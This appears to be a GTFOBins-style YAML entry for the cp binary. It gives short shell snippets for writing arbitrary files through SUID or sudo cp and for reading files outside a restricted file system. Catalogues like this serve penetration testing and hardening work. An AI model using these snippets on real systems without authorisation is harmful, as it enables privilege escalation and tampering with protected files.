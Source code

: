 ```yaml
---
description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges.
functions:
  suid:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
  sudo:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
        
  file-read:
    - description: It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system. The path must be absolute.
      code: |
        LFILE=file_to_read
        cp "$LFILE" /dev/stdout 
---
```

